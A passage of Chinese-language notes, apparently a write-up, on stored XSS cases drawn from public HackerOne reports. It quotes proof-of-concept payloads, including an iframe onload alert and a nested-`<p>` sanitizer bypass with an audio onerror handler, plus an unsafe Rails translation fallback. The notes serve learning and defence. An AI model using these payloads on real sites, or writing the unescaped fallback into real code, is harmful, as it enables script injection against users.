 以下是一个可能受影响的代码示例：

```ruby
<%# 假设 welcome_html 翻译键未定义 %> <%= t("welcome_html", default: params[:user_input]) %>
```

- 如果 params[:user_input] 是用户可控的输入（比如 <script>alert('XSS')</script>），且未被过滤，翻译结果会包含恶意脚本。
- Rails 默认认为以 _html 结尾的键是安全的 HTML，会直接渲染而不转义，导致 XSS。

### 12. 提问处插入payload未过滤

[Drugs.com | Report #1901706 - Stored Xss On "https://www.question.com/" | HackerOne](https://hackerone.com/reports/1901706)

```
<iframe onload=alert(document.domail)>
```

### 13、文件上传存储XSS

[TikTok | Report #2306491 - Stored-XSS-ads.tiktok.com | HackerOne](https://hackerone.com/reports/2306491)

通过视频上传功能发现存储跨站脚本 （XSS） 漏洞。由于缺乏必要的检查，可以上传包含 HTML 和 JavaScript 代码的 MP4 视频文件和 XML 文件，从而导致它们在受害者的浏览器中执行。

### 14、后端**Sanitizer** html消毒器绕过 | 评论区插入

[MercadoLibre | Report #1675516 - Stored XSS in reclamos | HackerOne](https://hackerone.com/reports/1675516)

```
<p><p><p><p><p><p><p><p><audio/src/onerror=alert(document.domain)>
```

消毒器的解析过程出现异常：

1. **前 7 个 `<p>`**：被正常补全为 `<p></p>`。
2. **第 8 个 `<p>`**：未闭合，导致解析器状态混乱。
3. **后续 `<audio>` 标签**：被错误地允许插入，并保留了 `onerror` 事件。

```
<p></p>
<p></p>
...
<p>  <!-- 未正确闭合 -->
  <audio/src/onerror=alert(document.domain)>  <!-- 恶意代码保留 -->
</p>
```

常见 Sanitizer 实现:

| 工具/库                  | 语言/平台       | 特点                               |
| :----------------------- | :-------------- | :--------------------------------- |
| **DOMPurify**            | JavaScript      | 轻量级，高安全性，支持自定义规则   |
| **Rails SanitizeHelper** | Ruby on Rails   | 内置 `sanitize` 方法，可配置白名单 |
| **PHP HTML Purifier**    | PHP             | 功能强大，支持复杂的 HTML 标准     |
| **Google Caja**          | Java/JavaScript | 早期方案，现较少使用               |
